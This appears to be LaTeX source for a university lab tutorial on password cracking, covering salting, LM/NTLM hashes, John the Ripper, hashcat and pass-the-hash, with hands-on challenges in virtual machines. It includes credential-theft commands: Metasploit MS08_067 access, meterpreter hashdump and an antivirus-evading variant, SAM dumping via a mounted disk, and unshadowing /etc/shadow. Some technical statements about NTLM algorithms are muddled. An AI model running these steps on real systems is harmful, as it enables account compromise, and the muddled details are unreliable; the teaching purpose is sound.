
%re% declare our document type
\documentclass[12pt]{article}

%%%%%%%% PACKAGES NEEDED FOR THIS DOCUMENT

% allow us to put pictures in the document
\usepackage{graphicx}
% this line lets us use larger fonts
\usepackage{extsizes}
% this allows us to create "slides" in the document
\usepackage[many]{tcolorbox}
% this line lets us caption images inside the "slides"
% this is neccesary since the slide doesn't allow the use of
% \figure{} inside
%\usepackage{caption}
% allows use of courier font
\usepackage{courier}
% make the table of contents links like people are used to
% the hidelinks parts hides link outlines
\usepackage[hidelinks]{hyperref}
% resize the margins
\usepackage[margin=1in]{geometry}
% use utf8 encoding
\usepackage[utf8]{inputenc}
% one of the other packages complained until I put this here
\usepackage[english]{babel}
% allow citations
\usepackage{cite}
% code listings
\usepackage{listings}
% fix single quote in listings
\usepackage{textcomp}

%%%%%%%%%%% CUSTOM ENVIRONMENT SETUP

% declare a typesetting environment for code/emphasis
\newcommand{\code}[1]{\texttt{\bfseries#1}}
\newenvironment{codeblock}{\bfseries\texttt\bgroup}{\egroup\par}
% better declaration of font environment
%\DeclareTextFontCommand{\codetext}[1]{\code{#1}}
% declare a large font environment for use in the "slides"
\newcommand{\instruction}[1]{\Large{#1}}
% font environment again
%\DeclareTextFontCommand{\instruction}{\instructionfont}
\newenvironment{instructionblock}{\Large\bgroup}{\egroup}
% declare a "slide" text box for use in the document
% the slide is a numbered \section{}
\newtcolorbox[auto counter]{slide}[3][]{%
	colback=brown!5!white,colframe=brown!80!gray,height=3.72in,
	title={\addcontentsline{toc}{section}{\thetcbcounter ~~ #2}\bf\Large\thetcbcounter ~ #2\hfill #3 \label{slide \thetcbcounter}\setcounter{section}{\thetcbcounter}}}
% declare a "subslide" text box for use in the document
% the subslide is a numbered \subsection{}
\newtcolorbox[auto counter,number within=section]{subslide}[3][]{%
	colback=brown!5!white,colframe=brown!80!gray,height=3.72in,
	title={\addcontentsline{toc}{subsection}{\thetcbcounter ~~ #2}\bf\Large\thetcbcounter ~ #2\hfill #3 \label{slide \thetcbcounter}}}
\renewcommand{\labelitemii}{$\circ$}
\lstset{basicstyle=\ttfamily,keywordstyle=\bfseries\color{blue!80!black},identifierstyle=\bfseries,stringstyle=\color{red},showstringspaces=false,commentstyle=\itshape\color{green!40!black},upquote=true}

% My Environments (keep these)
\usepackage{titling}%for changelog
\newcommand{\ben}{\begin{enumerate}}
	\newcommand{\een}{\end{enumerate}}
\newcommand{\bi}{\begin{itemize}}
	\newcommand{\ei}{\end{itemize}}
\usepackage{hyperref}
%%%%%%%%% SET UP OUR TITLE PAGE

\begin{document}
\title{ Password (In)Security \\ \large Attacks \& Prevention Part II}
\author{Harika Vadapalli and Nicholas Valenti \\ extension to the tutorial created by Jon Meyer and Jared Zook}
\date{\today \\ \hyperref[changelog]{Version 1.1} }
\renewcommand{\abstractname}{Summary}
\begin{titlepage}
\maketitle
\pagenumbering{gobble}
\begin{center}

\includegraphics[scale=.5]{UofI}

\large{CS 539: Applied Security Concepts}

\vskip 40pt

\end{center}

\begin{abstract}
We generally prefer to keep passwords that are simple and easy to remember but that ease helps attackers to crack it very easily. In this tutorial we can understand how passwords are exposed using different tools like John The Ripper. This guide helps us understand how important it is to have passwords that are strong enough and makes hacking difficult. We also go through different challenges and tasks for better understanding of the concept. A discussion on safe passwords is also included.  
%\center{\textbf{Prerequisites}}

%Basic familiarity with the bash command line.
\end{abstract}


\vfill
\begin{center}
This work is licensed under a \href{https://creativecommons.org/licenses/by-nc-nd/2.0/}{Creative Commons Attribution-NonCommercial 4.0 International License}.
\vskip 10pt

\includegraphics[scale=.5]{cc}
\end{center}

\end{titlepage}

%%%%%%%%%% TABLE OF CONTENTS

\pagebreak
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%    BEGINNING OF ACTUAL DOCUMENT
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\pagebreak
\pagenumbering{arabic}
\setcounter{section}{1}

\pagebreak
% use begin{slide} and decimal numbers for slides
\begin{slide}{Problem Description}{\hyperref[slide 2]{\textgreater}}
\vskip 20 pt
\begin{instructionblock}
How can users access data securely and prevent unauthorized users from accessing their personal information? 
\end{instructionblock}
\end{slide}

\vfill

It is important for all of us to understand why is it important to have a secure password. Every application needs some authentication verification to keep our information safe. Easy passwords give a lot of scope for an attacker to crack and steal private data. It is very important to have passwords that are complex so that they cannot be cracked quickly. 



\pagebreak
\begin{slide}{Real-World examples}{\hyperref[slide 1]{\textless}\hyperref[slide 3]{\textgreater}}
\vskip 10 pt
\begin{instructionblock}
\begin{enumerate}
	\item 500 million yahoo user accounts were hacked in 2014 \cite{yahoo}
	\item GitHub has become the latest target of a password reuse attack\cite{github}
	\item LinkedIn is hacked in 2012 and the emails, unsalted SHA1 encrypted passwords, and personal information of 117 million users are released on the dark web \cite{linkedin}
	
\end{enumerate}
\end{instructionblock}
\end{slide}
\vfill

\begin{enumerate}
	\item Apart from the attack that happened on Yahoo in 2014 there was a different attack in 2013 which hacked around 1 billion accounts. The two attacks are largest known security breaches. The 2013 attack involved sensitive user information like names, phone numbers etc. Yahoo users were affected by both the attacks. Critics say that yahoo was very slow in adapting the security measures even after the breach. Yahoo’s security officer, said in a statement that the attacker had stolen Yahoo’s proprietary source code which gave access to its users accounts. \cite{yahoo}
	\item GitHub has become the latest target of a password reuse attack. According to  VP of Security at GitHub, an unknown attacker using a list of email addresses and passwords obtained from the data breach of other online services made a significant number of login attempts to GitHub's repository on June 14. Github administrators reviewed the logins and found that attackers got access to its users accounts. The megabreaches of Linkedln, MySpace, Tumblr, and the dating site Fling might be because of dumping 642 million passwords. The company adviced its users to practice good passwords and use two-factor authentication for keeping their account safe.  \cite{github}
	\item In the LinkedIn attack, the attacker hacked most of the passwords in 72 hours and tried to sell the information. A security researcher reached out to some of the victims and got to know that they were using the same password at the time of breach. Officials of LinkedIn suggested not to store passwords in insecure manner, also to change the passwords once in a while and not to use same password for all the applications. They strongly recommended users to use strong passwords and two-factor authentication for keeping your account secure\cite{linkedin}.
	
\end{enumerate}


%\noindent\textbf{1. }\href{https://www.nytimes.com/2016/12/14/technology/yahoo-hack.html?_r=1}{}\newline

%\noindent\textbf{2. }\href{http://thehackernews.com/2016/06/github-password-hack.html}{}


\pagebreak
% use begin{slide} and decimal numbers for slides


\pagebreak
% use begin{slide} and decimal numbers for slides
\begin{slide}{Salting Techniques}{\hyperref[slide 2]{\textless}\hyperref[slide 4]{\textgreater}}
	\vskip 20 pt
	\begin{instructionblock}
		\ben
			\item 	Salt is random information appended to a password to increase its hashed complexity
			\item 	A proper salt helps mitigate both rainbow-table lookups and dictionary attacks
			\item   Each user should be given a unique salt. This one-use number is sometimes referred to as a nonce.
	\een
	\end{instructionblock}
\end{slide}

\vfill 


Salts are generally used to safeguard the passwords. The password and salt are concatenated which is processed with cryptographic hash function/ one-way hash function and the result is stored in salt database. *nix uses a password file (/etc/passwd) to store the hashes of salted passwords and a shadow file (typically /etc/shadow) holds additional user information including the salt

Problems with Salt:

\textbf{Public salt/salt reuse}: Using same salt for different hashed passwords. This will make rainbow tables useless.
Using a single salt makes it easier to attack multiple accounts by cracking one hash 

\textbf{Short salt:}If the salt is short , attacker can create rainbow tables with every possible combination so a large salt is always recommended.

\cite{book}

\textbf{Nonce:} In cryptographic communication a nonce is a arbitrary number which can be used only once. Authentication Protocols uses nonces to ensure that old communications cannot be reused\cite{nonce}.



\pagebreak
\begin{slide}{Windows Passwords (LM and NTLM)}{\hyperref[slide 3]{\textless}\hyperref[slide 5]{\textgreater}}
	\vskip 10pt
	\begin{instructionblock}
		LM (Lan Manager):
		\begin{enumerate}
			\item Developed by IBM and Microsoft
			\item Uses server message block protocol
		\end{enumerate}
	To overcome some of the disadvantages of LM a new method called NTLM was introduced. Though it is better than LM, it is still weak and can be brute-forced easily.
	
	\end{instructionblock}
\end{slide}
\vfill
\textbf{LM hash algorithm}:
\begin{enumerate}
	\item 	Weak method of hashing
	\item   Can crack hashes in seconds using rainbow tables
\end{enumerate}

\textbf{Trouble with LM password Hashes}:
\begin{itemize}
	\item Passwords are truncated at 14 characters. 
	\item Passwords are converted to all uppercase. 
	\item Passwords of fewer than 14 characters are null-padded to 14 characters. 
	\item The 14-character password is broken into two seven-character passwords that are hashed separately. 
\end{itemize}



NTLM hashes are more difficult to crack than LM. Length and complexity of password matters. If the hashing function is complex it takes decades or even life time to hack and NTLMv2 uses RC4. NTLM is not salted and the types of encryption can be dictated by group policy and active directory settings. 
There are two versions of NTLM: 
\begin{itemize}
	\item LM and NTLMv1 use DES 
	\item NTLMv2 uses MD4/MD5
\end{itemize}
\cite{book}

Jeremi Gosney released a research paper called Exacerbating Global Warming at the Oslo Password Hacking Conference showing that any NTLM hash can be cracked in under 6 hours. \cite{oslo}



\pagebreak
\begin{slide}{LM and NTLM Hash Example\cite{book}}{\hyperref[slide 4]{\textless}\hyperref[slide 6]{\textgreater}}
	\vskip 10pt
	\begin{instructionblock}
		
		User Name: Administrator
		
		ID: 500
		
		LM Hash: e52cac67419a9a224a3b108f3fa6cb6d
		
		NTLM Hash: 8846f7eaee8fb117ad06bdd830b7586c
		
		\bigskip
		\bigskip
		
		
		
		User Name: Georgia Weidman
		
		ID: 1000
		
		LM Hash: aad3b435b51404eeaad3b435b51404ee
		
		NTLM Hash: 8846f7eaee8fb117ad06bdd830b7586c

	\end{instructionblock}
\end{slide}


Note that the LM Hash aad3b435b51404eeaad3b435b51404ee signifies that it is empty and instead exclusively contains an NTLM hash.

\pagebreak
\begin{slide}{Password Cracking Attacks}{\hyperref[slide 5]{\textless}\hyperref[slide 7]{\textgreater}}
	\vskip 10pt
	\begin{instructionblock}
		Passwords can be cracked using:
		\begin{enumerate}
			\item Brute-force attacks
			\item Dictionary attacks
			\item Precomputed tables
			\item ``Intelligent'' brute-force attacks (e.g. Markov chains)
			\item Group Policy Attacks
		\end{enumerate}
	\end{instructionblock}
\end{slide}
%\vfill


Passwords generally are (and should be) stored as a hashed message digest instead of plaintext \cite{ars}. As such, the attempts for each of these attacks will generally need to be hashed using the same algorithm to match the corresponding stored password hash. This is because cracking attacks are often run against password files that the attacker apprehended \cite{msdn}.

\ben

\item Brute-force attacks aim to crack passwords by trying every possible permutation of a password. For example, a brute-force attack against a four character password would begin with ``aaaa'' and attempt every possible iteration up until ``zzzz''. This attack is simple and effective, so long as there is enough time to run through the permutations. The drawback of brute-force method is, with each additional character added to the password, the time it takes to crack it grows exponentially. \cite{ars}

\item Dictionary attacks attempt to match words from a given wordlist against a set of passwords \cite{ars}. This method is more sophisticated than a brute-force search because, instead of generating the passwords character-by-character, a list of likely character combinations can be used (e.g. ``password''). 

\item Rainbow tables represent one type of pre-computed dictionary attack. Tables store large amounts of passwords and their corresponding hashes. A rainbow table attack uses a hash value taken from the list and reduces it using a \textit{reduction function} to match against passwords in the table. If a reduction matches a hash, the password may be found by generating a chain of hashes to find a match with one of the pre-computed hashes. Since rainbow tables incorporate the same hashing algorithm as the password storage, they can be defeated if the administrator includes a ``salt'' or a random value added to the password before hashing. This makes it so identical passwords can have different hashes, frustrating the attack.

\item An example of an intelligent brute-force attack is an attack using a Markov chain. By this method, probabilities for each position of the password can be determined by using previously-cracked passwords \cite{ars}. The rules we write in this tutorial for john the ripper are another example.

\item Group Policy Attacks A key component of active directory is group policy to manage security, user settings etc. Group policy settings are divided into user and computer sections. The vulnerability is a fundamental design flaw in Group Policy that remained undiscovered for at least a decade. They reported it to Microsoft in January 2014. To fix it, Microsoft had to re-engineer core components of the operating system and add several new features. Microsoft addressed the remote code execution flaw with the MS15-011 security bulletin, but also fixed a related Group Policy security bypass issue in MS15-014. Microsoft security engineers explained in a blog post that attackers would be most likely to exploit these vulnerabilities by using techniques like ARP spoofing on a local network in order to trick computers to accept and apply bad Group Policy configuration data from servers under their control. A longer password length is important to both administrators creating policy and users protecting their information\cite{group}\cite{gp}.

\een

\pagebreak
\begin{slide}{Password Security Guidelines}{\hyperref[slide 6]{\textless}\hyperref[slide 8]{\textgreater}}
	\begin{instructionblock}
		Administrators should:
		\begin{itemize}
			\item Never store plaintext passwords 
			\item Use a slow hashing algorithm to hash \textit{salted} passwords
			\item Incorporate complexity and minimum length requirements for password creation
		\end{itemize}
		Users should:
		\bi
			\item Use strong, unique passwords
			\item Use password manager and two-factor authentication
		\ei
	\end{instructionblock}
\end{slide}
\vfill



Traditional advice for password complexity requires that the password be at least 12 characters long, consisting of letters (upper and lowercase), numbers, and special characters. In addition, it should not be a dictionary word and shouldn't have obvious substitutions. To be even more secure, users should consider using a \textit{password manager}. Password managers allow you to store strong, randomized, unique passwords for every system you connect to. \cite{strongpass} To avoid having a single point of failure due to the master password, methods such as two-factor authentication can add an extra layer of security \cite{passmanager}. Additionally, many password managers which store encrypted passwords locally can be configured to require the use of a key file in conjunction with a master password to unlock all of a user's saved passwords. This is a common way to prevent a single point of failure when storing passwords on a local machine.

\pagebreak

\begin{slide}{Types of Password Attacks}{\hyperref[slide 7]{\textless}\hyperref[slide 9]{\textgreater}}
		\vskip 10pt
	\begin{instructionblock}
		\begin{itemize}
			\item Online Password Attacks
			\begin{itemize}
				\item Generally require more research and educated guesses from the attacker
				\item These can be mitigated by limiting requests and protecting user information
			\end{itemize}
			\item Offline Password Attacks
			\begin{itemize}
				\item Involve an attacker gaining access to hashed passwords
				\item This tutorial focuses primarily on offline attacks
			\end{itemize}
		\end{itemize}
	\end{instructionblock}
\end{slide}


\vfill

It isn’t easy because hashes are product of one-way hash function: Using hash function with an input an attacker can calculate the output but if the hashing algorithm is strong it cannot be similarly reversed.
However, an educated guess can be made and hashed. This hash can be compared to the known hash.

Meterpreter has a \texttt{hashdump} command which attempts to print the hashed Windows passwords if it has access.

\code{meterpreter \textgreater  hashdump }
\cite{book}

This method will trigger most antivirus software. A metasploit script called smart\_hashdump exists which attackers can use to avoid this.

\code{meterpreter \textgreater run post/windows/gather/smart\_hashdump}

The results will be saved in the \texttt{\$user/.msf3/} folder. For convenience we will use this folder for the remainder of this tutorial.


\pagebreak

\begin{slide}{Recovering Password Hashes from a Windows SAM File}{\hyperref[slide 8]{\textless}\hyperref[slide 10]{\textgreater}}
	\begin{instructionblock}
	%	\textbf{SAM file}:
			\bi
				\item Windows Security Manager
				\item It stores hashed Windows passwords
				\item It is not that easy to recover password hashes from a SAM file
			\ei
				
	\end{instructionblock}
\end{slide}
\vfill
\bi

\item The SAM file is encrypted by the Windows Syskey utility using a 128-bit RC4 Cipher

\item Windows sometimes stores backups of the SAM file in the \$Windows\textbackslash repair folder which does not have elevated privileges and can be exploited by attackers.

%Once you have the file, using \texttt{bkhive} we can extract the boot key in kali
%~ bkhive /mnt/ntfs/windows/system32/config/SYSTEM/tmp/bootkey

\ei\cite{book}

\pagebreak
\begin{slide}{Task 1: Getting Password Hashes Remotely }{\hyperref[slide 9]{\textless}\hyperref[slide 11]{\textgreater}}
	\begin{instructionblock}\
		\begin{enumerate}
			\item Use the MS08\_067 metasploit module to gain access to the Windows XP system on the network
			\item Try the \code{hashdump} command to view the dump of user accounts and passwords
			\item Now try using the \code{smart\_hashdump} script
		\end{enumerate}
	\end{instructionblock}
\end{slide}

To run the smart\_hashdump script from meterpreter use:

\code{meterpreter \textgreater run post/windows/gather/smart\_hashdump}

\vfill 

Time: 5-10 minutes

\pagebreak
\begin{slide}{John the Ripper}{\hyperref[slide 10]{\textless}\hyperref[slide 12]{\textgreater}}
	\begin{instructionblock}
		\bi 
			\item A fast, free, multi-platform, open-source password cracker
			\item Will allow us to try out brute-force, dictionary, and rule-based attacks
		\ei 
		Example modes:
		\bi
			\item Brute Forcing
			\item Single
			\item Wordlist with rules
			\item Incremental
		\ei
	\end{instructionblock}
\end{slide}
\vfill

John the Ripper (hereafter referred to as ``john'') is a free, open source password cracking utility. It was initially designed to uncover weak passwords on Unix systems, but is also used in a wider scope for general password cracking. It is available for both *nix and Windows-based systems and can crack password hashes from different hashing algorithms (e.g. crypt(3) for Unix, LM for Windows). \cite{john} john is typically run from the command line, but GUI interfaces exist for it (e.g. ``Johnny'' on Kali Linux).

In lieu of running any additional command line options, executing \code{john \textless pass.txt\textgreater} will run john in the following order of cracking modes: single crack, wordlist with rules, and incremental. Single crack mode will try passwords based off user names, word-mangling, and previously cracked passwords. Wordlist mode incorporates rules specified in john's configuration file (or by the user) and runs a wordlist against password hashes in the list. A  is just a text file with each line representing a different word that can be a password. This is akin to the dictionary attack discussed previously. If a wordlist is not specified, john will use its default wordlist. Finally, incremental mode tries every different possible combination of characters for the password. It is essentially a brute-force attack. \cite{john}

\pagebreak
\begin{slide}{Example John the Ripper Commands}{\hyperref[slide 11]{\textless}\hyperref[slide 13]{\textgreater}}
	\begin{instructionblock}
			\code{--show}
				\medskip
			
		\code{--single}
		\medskip
		
		
		\code{--rules}
		\medskip
		
		\code{--wordlist=FILE, --stdin}	
		\medskip
		
		\code{--external=MODE}
		\medskip
		
		\code{--incremental[=MODE]}
		\medskip
		
		\code{--save-memory=LEVEL}
		
	
		
		
		
	\end{instructionblock}
\end{slide}
To get a list of other available options visit \url{http://www.openwall.com/john/doc/OPTIONS.shtml}

\vfill

\bi
\item Shows the cracked passwords for given password files. You can use this option while another instance of John is cracking to see what John did so far
\item Enables the "single crack" mode, using rules from the configuration file section 
\item Enable word mangling rules for wordlist mode
\item These are used to enable the wordlist mode that is read words from FILE, or from stdin
\item Enables an external mode, using external functions defined in section
\item Enables the "incremental" mode, using the specified configuration file definition. If MODE is omitted, the default is "ASCII" for most hash types and "LM\_ASCII" for LM hashes.
\item You might need this option if you don't have enough memory or don't want John to affect other processes too much or don't need it to load and print login names along with cracked passwords. Level 1 tells John not to waste memory on login names; it is only supported when a cracking mode other than "single crack" is explicitly requested. Levels 2 and 3 reduce use of performance optimizations involving large lookup tables, and thus have a negative performance impact.


\ei
\cite{command}

\pagebreak
\begin{slide}{Challenge 1: Offline Password Attack}{\hyperref[slide 12]{\textless}\hyperref[slide 14]{\textgreater}}
	\begin{instructionblock}
		Using John the Ripper and the provided wordlists (located in the \texttt{\$wordlists} folder relative to the saved hashdump) attempt to crack the passwords included in this file
		\bi
			\item When you are able to crack a password, write down what you were able to crack and with which settings
			\item Try to determine why you were able to crack each one
			\item Were there any passwords you were unable to crack? Do you think you could given more time?
		\ei
	\end{instructionblock}
\end{slide}
The \code{rockyou.txt} wordlist is an actual password file leaked from the RockYou website. This is one of the better wordlists available today. The other wordlists include the Cain and Abel wordlist, an english dictionary, and the openhull all.lst which contains wordlist localizations in several languages and character sets. All in all there are over 20 million words/passwords between these four files alone.
\vfill
Duration: 10 minutes

\pagebreak
\begin{slide}{Activity: Physical Access}{\hyperref[slide 13]{\textless}\hyperref[slide 15]{\textgreater}}
	\begin{instructionblock}
		For this exercise (and forensic purposes) we will preserve the data integrity of our Windows 7 machine
		\begin{enumerate}
			\item Log in to your Windows 7 VM and create 5+ user accounts of varying types and password strengths
			\item This VM has a bootable Kali disk inserted. Restart and boot from the CD-ROM.
			\item Boot to Kali in forensic mode
		\end{enumerate}
	\end{instructionblock}
\end{slide}
Normally booting from a CD will use RAM and any SWAP partitions to boot

This has also clobbered the boot register on these VMs previously

Forensic mode will only use RAM, preserving data integrity

This does not necessarily protect us from manually mounting and changing the file system

\vfill
Duration: 5 minutes


\pagebreak
\begin{slide}{Activity: Physical Access 2}{\hyperref[slide 14]{\textless}\hyperref[slide 16]{\textgreater}}
	\begin{instructionblock}
		\bi
			\item From \texttt{\$root}, use the following commands to mount the windows file system in Kali and navigate to the config folder:
		
			\code{mkdir -p /mnt/sda2}
			
			\code{mount /dev/sda2 /mnt/sda2}
			
			\code{cd mnt/sda2/WINDOWS/SYSTEM32/config}
			
			\item Mounting the file system in this way bypasses many of the native Windows protections on the system32 folder
		\ei
		
	\end{instructionblock}
\end{slide}
In this case sda2 is the C: drive for this Windows 7 VM. This will differ from system to system but follows a predictable pattern. In a real world scenario the possible options can be explored until the correct drive is found.
\vfill
Duration: 5 minutes

\pagebreak
\begin{slide}{Challenge 2: Saving the Windows 7 hashes}{\hyperref[slide 15]{\textless}\hyperref[slide 17]{\textgreater}}
	\begin{instructionblock}
		Without altering the integrity of the file system, transfer the contents of the hash dump to your other active Kali VM
		\bi
			\item You can view the hashdump using \texttt{samdump2}:
			
			\code{samdump2 SYSTEM SAM}
			
			\item These files can be lengthy and you don't want to save anything locally
			
			\item You should have a file containing the password hashes in your Kali VM at the end of this exercise
		\ei

	\end{instructionblock}
\end{slide}
Hint: Both of these systems are on the same network

Remember this is a forensic investigation. Be careful to not compromise the integrity of the Windows file system!

\vfill 
Duration: 10-15 minutes




\pagebreak
\begin{slide}{Challenge 3: Offline Password Attack 2}{\hyperref[slide 16]{\textless}\hyperref[slide 18]{\textgreater}}
	\begin{instructionblock}
		Now that you have the hash dump from the Win7 machine in Kali, use John the Ripper and wordlists to attempt to crack the passwords you created.
		\bi 
			\item This Windows 7 machine uses NTLM so you will have to change the \code{--format} flag when running john
			\item As before, write down what you were able to crack and with what settings. What led to each password being vulnerable?
			\item Are there any passwords you don't think could be cracked in a reasonable amount of time?
		\ei
	\end{instructionblock}
\end{slide}
Hint: john --format = " " \code(refer john for commands\code) 
\vfill
Duration: 15 minutes


\pagebreak
\begin{slide}{Linux Passwords}{\hyperref[slide 17]{\textless}\hyperref[slide 19]{\textgreater}}
	\begin{instructionblock}
		\begin{itemize}
			\item Traditionally, UNIX account information and passwords are stored in \code{/etc/passwd}
			\item This creates a security concern because \code{/etc/passwd} is a world-readable file used by many command line tools
			\item To mitigate this risk, some distributions store password hashes in the(\code{/etc/shadow}) file which can only be accessed by a super user
			\item This does not prevent super users from directly accessing the password hashes
		\end{itemize}
	\end{instructionblock}
\end{slide}
Windows does not allow access to SAM files while a user is logged in irrespective of the permissions of their account. While *nix has the advantage of salting passwords, Windows has a more effective permission scheme and both systems still have inherent flaws.

In addition Linux passwords can be encrypted using a number of algorithms. The hashdump will actually tell us which encryption method was used:
\bi
	\item \$1: MD5
	\item \$2: blowfish
	\item \$2a: eksblowfish
	\item \$5: SHA-256
	\item \$6: SHA-512 
\ei
\vfill

Traditional Unix systems store user names, one-way encrypted passwords, and user attributes (e.g. User ID, home directory, login shell) in \code{/etc/passwd}. Many Unix utilities use the information in the file to execute properly, therefore \code{/etc/passwd} needs to be \textit{world-readable}. Since it is world-readable, this leaves the password hashes in a vulnerable position. To address this vulnerability, many Linux distributions store the password hash portion of \code{/etc/passwd} in a \textit{shadow password} file, \code{/etc/shadow}.
When a distro has shadow passwords enabled, \code{/etc/passwd} is used as before, except the password field is replaced by an `x'. \code{/etc/shadow} also may include useful information regarding user passwords such as number of days since a password change and number of days after expiry before an account is disabled. \cite{frampton}

\pagebreak
\begin{slide}{Unshadowing the Password File}{\hyperref[slide 18]{\textless}\hyperref[slide 20]{\textgreater}}
	\begin{instructionblock}
		\begin{itemize}
			\item John the Ripper includes an \texttt{unshadow} command:\\
			\code{\$ unshadow /etc/passwd /etc/shadow}
			\item This can be run while logged into a *nix system
			\item An already unshadowed password file has been provided in \texttt{\$/LinuxPass/} for use in your next challenge
		\end{itemize}
	\end{instructionblock}
\end{slide}
Feel free to see what happens when you unshadow the passwords in Kali
\vfill
john, being originally designed to detect insecure Unix passwords, includes a utility called \textbf{unshadow} that combines \code{/etc/passwd} and \code{/etc/shadow}, effectively unshadowing the passwords and matching them up with their associated user and user attributes. Once this file is cracked, the attacker has a lot of useful information at her fingertips. \cite{john}

Cracked passwords are stored in \code{\$JOHN/john.pot}, a non-human readable file. the \code{--show} tag is the best way to view cracked passwords \cite{john}.

\pagebreak
\begin{slide}{Rules}{\hyperref[slide 19]{\textless}\hyperref[slide 21]{\textgreater}}
	%\vskip 10pt
	\begin{instructionblock}
		\bi
			\item John the Ripper has a built in word mangler for use with wordlists
			\begin{enumerate}
				\item Open \code{/etc/john/john.conf} in a text editor
				\item Find List.Rules:Wordlist
			\end{enumerate}
			\item You will find several examples of rules here (along with their names for usage)
			\item You can create or modify your own rules, including rule that incorporate other rules
		\ei
	\end{instructionblock}
\end{slide}
	\bi
		\item For example, the rule \$[0-9]\$[0-9]\$[0-9] will add three
	numbers at the end of each word in the wordlist
		\item The most useful rule is generally \texttt{cAz"[0-9]"}, which changes the case of the first letter and appends a number to the end
		\item Syntax exists for character classes, commands, insertion, minimum/maximum length, etc
		\item You can enable rules using the \texttt{--rules} flag in John The Ripper.
		\item More information on writing the new rules can be found at \url{http:://www.openwall.com/john/doc/RULES.shtml}
		\item Creative use of rules can be used if you have knowledge of group password policies, especially if they are weak
	\ei
\vfill
	\cite{book}
\pagebreak
\begin{slide}{Challenge 4: Ubuntu Userlist}{\hyperref[slide 20]{\textless}\hyperref[slide 22]{\textgreater}}
	\begin{instructionblock}
		There is a folder in your VM called LinuxPass with an unshadowed hashdump from an Ubuntu VM. Use JTR, wordlists, and word mangling with rules to crack as many of these passwords as you can.
		\bi
			\item Write down which passwords you were able to crack and under what settings. Do you think your rules were helpful? What other rulesets did you use?
			\item The salts were removed from these passwords. Which passwords do you think would still be susceptible to attack with salts enabled?
		\ei
	\end{instructionblock}
\end{slide}
Hint: Try to figure out the purpose of some of the rules and wordlists. Try to figure out how they are meant to be used. For example, the BeBrutal rule is not useful in conjunction with a password file like rockyou.txt, instead it is meant for use in combination with a dictionary.
\vfill
Duration: 15-20 minutes

\pagebreak
\begin{slide}{Questions}{\hyperref[slide 21]{\textless}\hyperref[slide 23]{\textgreater}}
	\vskip 10pt
	\begin{instructionblock}
		\begin{enumerate}
			\item What is salting?
			\item Is the default cracking mode or the wordlist mode more effective at cracking passwords? Why is this the case?
			\item Can you crack any possible password with a brute-force attack? If so, what would this require?
			\item What encryption is used by Windows? Linux?
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\vfill	

\pagebreak
\begin{slide}{Rainbow Tables}{\hyperref[slide 22]{\textless}\hyperref[slide 24]{\textgreater}}
\begin{instructionblock}
\begin{itemize}
\item Another way to crack passwords is to calculate all possible hashes for passwords of a certain length and hash function and to store the passwords and their associated hashes in a table for future lookup. 
\item This trades speed for storage capacity. To have rainbow tables for the most common hash functions and for passwords of moderate length terabytes of storage is commonly required.
\item The downside to cracking with rainbow tables is that if a salt is added to a password it reduces its effectiveness to the point where it gives no advantage.
\end{itemize}
\end{instructionblock}
\end{slide}
\cite{rainbowcrack}
\vfill
Specialized software is available for cracking passwords with rainbow tables. Rainbow tables and the required software to use them can be downloaded from many places, but one place is Project RainbowCrack \url{http://project-rainbowcrack.com/index.htm}.\cite{rainbowcrack} (Rainbow crack, or RCrack, is also a program included in Kali that performs rainbow table attacks in a similar fashion to JTR)

\pagebreak
\begin{slide}{Hashcat\cite{hashcat}}{\hyperref[slide 23]{\textless}\hyperref[slide 25]{\textgreater}}
	\begin{instructionblock}
		\bi
			\item Open Source Password recovery tool
			\item Supported by LM, MD4, MD5, SHA-family
			\item Modes Operated: Brute Force, Hybrid, Dictionary
			\item Similar in functionality to JTR, included in Kali
		\ei
	\end{instructionblock}
\end{slide}


\begin{itemize}
	\item In order to open Hash cat just follow the following steps. Open applications -\textgreater kali linux -\textgreater Password Attacks -\textgreater Offline Attacks -\textgreater Hashcat. 

	On clicking this it gives a help screen and type:
	
	“ hashcat [options]  hashfile  [mask$\vert$wordfiles$\vert$directories]" 
	
	It will show different options that can be used in hashcat from which ,
	-m {hashtype} and -a {attack mode}   are important. 
	\cite{hashcat1}
	
\end{itemize}

\pagebreak
\begin{slide}{Pass-The-Hash\cite{passthehash}}{\hyperref[slide 24]{\textless}\hyperref[slide 26]{\textgreater}}
	\begin{instructionblock}
			\bi
				\item Technique that allows attacker to authenticate access using LM and NTLM Hash without needing cleartext password
				\item Any Windows machine that uses communications protocols are vulnerable
				\item Very difficult to defend against, requires defense in depth (see below)
			\ei
	\end{instructionblock}
\end{slide}
Mitigations include heavily using least privilege principle, firewalls, disk encryption, removal of credential caching, active directory usage, limiting administrator logins to specific domains, patching, and so on.
\pagebreak
\begin{slide}{Conclusion}{\hyperref[slide 25]{\textless}\hyperref[slide 27]{\textgreater}}
\begin{instructionblock}
\begin{itemize}
\item Passwords are fragile.  Passwords that are easy for people to remember are even easier for computers to guess.
\item Even ``secure'' passwords can be vulnerable to more sophisticated attacks.
\item It seems likely that passwords will ultimately be replaced by a newer more secure mechanism, possibly bio-metric in nature that will combine better security with greater ease of use.
\end{itemize}
\end{instructionblock}
\end{slide}
\vfill

\pagebreak

\begin{slide}{Appendix: Setting Up the VM, Solutions, and Change-log}{\hyperref[slide 26]{\textless}}
	\begin{instructionblock}
		\begin{enumerate}
			\item {Steps for setting up the virtual machine}
			\item {Network Diagram}
			\item {Solutions to the challenges and questions}
				
			\item {Change-log}
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\textbf{Steps for Virtual Machine setup:}

\ben
\item This Tutorial requires following VM's
\begin{itemize}
	\item Windows7, Windows XP VM
	\item 64-bit Ubuntu 16.04 version
	\item Kali with `metasploit' and `netcat' preloaded
	
\end{itemize}
\een

\pagebreak
\textbf{Network Diagram:}
\begin{figure}[ht]
	\centering
